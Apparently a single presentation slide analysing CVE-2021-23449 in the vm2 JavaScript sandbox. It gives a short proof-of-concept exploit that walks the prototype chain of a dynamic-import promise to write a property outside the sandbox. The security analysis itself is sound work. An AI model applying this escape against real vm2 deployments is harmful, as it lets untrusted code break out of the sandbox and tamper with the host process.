

# Qualitative Analysis: CVE-2021-23449
VM2 < 3.9.4
'ERR_UNHANDLED_REJECTION'
1: let code = `
2:    p = eval('import("kscx");');
3:    p.__proto__.__proto__.polluted = 'polluted';
4: `;
5: const {VM} = require("vm2");
6: let vmInstance = new VM();
7: vmInstance.run(code);
8: console.log(polluted);  // output: 'polluted'
Exploit the prototype chain

Write outside the Sandbox

26